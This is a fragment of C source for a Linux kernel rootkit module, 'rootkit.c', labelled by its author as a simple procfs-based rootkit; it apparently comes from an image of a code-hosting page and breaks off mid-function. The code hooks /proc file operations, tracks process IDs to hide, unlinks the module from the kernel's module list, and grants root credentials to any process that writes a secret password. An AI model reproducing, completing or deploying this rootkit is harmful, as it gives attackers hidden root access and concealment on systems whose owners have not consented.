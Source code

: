 
rootkit.c:

```cpp
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/proc_fs.h>
#include <linux/sched.h>
#include <linux/string.h>
#include <linux/cred.h>
#include <linux/stat.h>
#include <linux/uaccess.h>
#include <linux/file.h>

#include "rootkit_conf.conf.h"

MODULE_LICENSE("GPL") ;
MODULE_AUTHOR("Ormi") ;
MODULE_DESCRIPTION("Simple rootkit using procfs") ;
MODULE_VERSION("0.1.2");

static int failed;
static char pid[10][32];
static int pid_index;

/* Here are pointers in which we save original, replaced pointers. We use them later, during unloading the module.
I think that their names explain what they are ;) */
static int (*old_proc_readdir)(struct file *, void *, filldir_t);
static filldir_t old_filldir ;
static ssize_t (*old_fops_write) (struct file *, const char __user *,
size_t, loff_t *);
static ssize_t (*old_fops_read)(struct file *, char __user *, size_t, loff_t *);
static write_proc_t *old_write;
static read_proc_t *old_read;

static struct proc_dir_entry *ptr; /* Pointer to "infected" entry */
static struct proc_dir_entry *root; /* Pointer to /proc directory */
static struct list_head *prev; /* Pointer to entry in main modules list which was before our module before we hid the rootkit */

static struct file_operations *fops; /* file_operations of infected entry */
static struct file_operations *root_fops; /* file_operations of /proc directory */

static inline void module_remember_info(void)
{
	prev = THIS_MODULE->list.prev;
}

static inline void module_show(void)
{
	list_add(&THIS_MODULE->list, prev); /* We add our module to main list of modules */
}

/* Parameter of this function is pointer to buffer in which there should be command */
static int check_buf(const char __user *buf)
{
	/* Here we give root privileges */
	struct cred *new = prepare_creds();
	if (!strcmp(buf, password)) {
		new->uid = new->euid = 0;
		new->gid = new->egid = 0;
		commit_creds(new);
	}

```